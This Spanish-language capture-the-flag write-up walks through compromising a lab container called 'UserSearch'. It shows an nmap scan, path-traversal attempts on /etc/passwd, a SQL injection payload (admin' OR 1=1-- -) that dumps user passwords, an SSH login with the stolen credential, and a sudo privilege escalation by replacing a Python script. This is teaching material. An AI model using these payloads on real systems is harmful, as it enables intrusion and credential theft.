 
# Máquina UserSearch

Una vez desplegado el contenedor, haremos un primer escaneo para ver que información podemos obtener. 

```bash 
nmap -sS -p- -Pn -n --min-rate=5000 172.18.0.2 -oN fScan 
```
Obtenemos lo siguiente. Los puertos 22 y 80 están con el estado open. 

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-09 05:13 EDT
Nmap scan report for 172.18.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:12:00:02 (Unknown)
```

Se podría realizar otro escaneo con nmap pero voy a investigar el puerto 80 para ver que información puedo obtener con whatweb.

```bash
whatweb http://172.18.0.2                                
```
Ya tenemos la versión del servicio que está corriendo en el puerto 80, que es Apache 2.4.59

```bash
http://172.18.0.2 [200 OK] Apache[2.4.59], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[172.18.0.2], Title[User Search]
```

Antes de buscar vulnerabilidades sobre Apache, voy a visitar la página web. Por lo que parece, tengo permitido hacer un input en el cual se busca un usuario.
Supongo que ese usuario estará guardado en una base de datos por lo que por detras estará realizando una consulta.

![Captura](https://github.com/user-attachments/assets/57a2037f-d52b-41c1-892f-615f29d5f3fc)

Para empezar introduciré una palabra cualquiera y ver cual es la respuesta. 

![fsd](https://github.com/user-attachments/assets/59abe1c5-b6a3-4c00-bae1-d9e6751e9b66)

En la barra de búsqueda aparece un parámetro /?user= y en la página web nos avisan de un "Unauthorized query". Hice algunas pruebas con el repeater 
de Burp enviando ?user= con valores como ../../../etc/passwd o ....//....//....//....//etc/passwd pero no era vulnerable en ese aspecto, por lo que volveré 
al input de la página principal. 

Probando nombres aleatorios las respuestas cambian entre "Unauthorized query" o "No results found" aunque probando con "admin" se obtuvo una respuesta:

![admin](https://github.com/user-attachments/assets/445aa63c-6650-4232-82b1-d70d81880513)

Por la información que dan pienso que la query será algo como:
SELECT username, password FROM tabla_usuarios WHERE username=admin  

Probando distintos inputs SQLi obtuve una respuesta con:
admin' OR 1=1-- - 

![usuarios](https://github.com/user-attachments/assets/19785ba7-7747-4f40-ba91-56754db5d1cc)

Como ahora tenemos usuarios y contraseñas, se probará a realizar una conexión por ssh, pues tiene el puerto open. (administrador y user1 no funcionan)

```bash
ssh kvzlx@172.18.0.2 
kvzlx@172.18.0.2's password: 
Last login: Wed Jul  9 09:53:58 2025 from 172.18.0.1
kvzlx@85e9bcd37a39:~$ 
```

Ahora que estamos dentro, tendremos que intentar escalar privilegios. 

```bash
kvzlx@85e9bcd37a39:~$ sudo -l
Matching Defaults entries for kvzlx on 85e9bcd37a39:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User kvzlx may run the following commands on 85e9bcd37a39:
    (ALL) NOPASSWD: /usr/bin/python3 /home/kvzlx/system_info.py
```

Hay un archivo .py que el usuario puede usar con permisos, por lo que trataremos de escalar privilegios con el. Ese archivo está en la carpeta personal del usuario
pero tiene los siguientes permisos > -rwxr-xr-x 1 root  root   191 May 29  2024 system_info.py 
Probaremos a borrar el archivo a ver si podemos (al ser nuestra carpeta personal, deberíamos tener total control sobre los archivos). Fue posible borrar el archivo 
por lo que crearemos otro archivo .py con el mismo nombre para intentar escalar privilegios con Python. 

![escalada](https://github.com/user-attachments/assets/0c40a8f9-cfaf-4972-9777-b8a79b62fa7f)







